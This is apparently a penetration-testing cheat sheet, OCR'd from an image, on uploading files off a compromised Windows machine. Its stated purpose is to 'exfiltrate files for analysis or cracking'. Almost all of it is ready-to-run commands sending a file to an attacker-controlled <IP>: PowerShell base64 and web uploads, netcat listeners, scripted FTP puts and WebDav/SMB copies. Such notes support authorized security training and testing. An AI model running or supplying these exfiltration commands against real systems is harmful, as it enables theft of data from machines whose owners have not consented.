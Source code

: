 ### Upload Operations
- **Purpose**: Exfiltrate files for analysis or cracking.
- **Methods**:
  - **PowerShell Base64 Encode**:
    - Encode on Windows:
      ```powershell
      [Convert]::ToBase64String((Get-Content -Path "C:\Windows\system32\drivers\etc\hosts" -Raw -Encoding Byte))
      ```
    - Decode on Linux:
      ```bash
      echo <base64_string> | base64 -d > hosts
      md5sum hosts
      ```
  - **PowerShell Web Uploads**:
    - Use `uploadserver`:
      ```bash
      pip3 install uploadserver
      python3 -m uploadserver
      ```
    - Upload:
      ```powershell
      Invoke-FileUpload -Uri http://<IP>:8000/upload -File C:\Windows\System32\drivers\etc\hosts
      ```
    - Base64 with Netcat:
      ```powershell
      $b64 = [Convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Raw -Encoding Byte))
      Invoke-WebRequest -Uri http://<IP>:8000/ -Method POST -Body $b64
      ```
      ```bash
      nc -lvnp 8000
      echo <base64_string> | base64 -d > hosts
      ```
  - **FTP Upload**:
    - PowerShell:
      ```powershell
      (New-Object Net.WebClient).UploadFile('ftp://<IP>/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
      ```
    - Non-interactive:
      ```cmd
      echo open <IP> > ftpcommand.txt
      echo USER anonymous >> ftpcommand.txt
      echo binary >> ftpcommand.txt
      echo PUT C:\Windows\System32\drivers\etc\hosts >> ftpcommand.txt
      echo bye >> ftpcommand.txt
      ftp -v -n -s:ftpcommand.txt
      ```
  - **SMB Uploads**:
    - SMB over HTTP (WebDav):
      - Install WebDav:
        ```bash
        sudo pip3 install wsgidav cheroot
        sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
        ```
      - Connect/upload:
        ```cmd
        dir \\<IP>\DavWWWRoot
        copy C:\file.txt \\<IP>\DavWWWRoot
        ```
    - **Note**: Outbound SMB (TCP/445) often blocked, making WebDav a workaround.
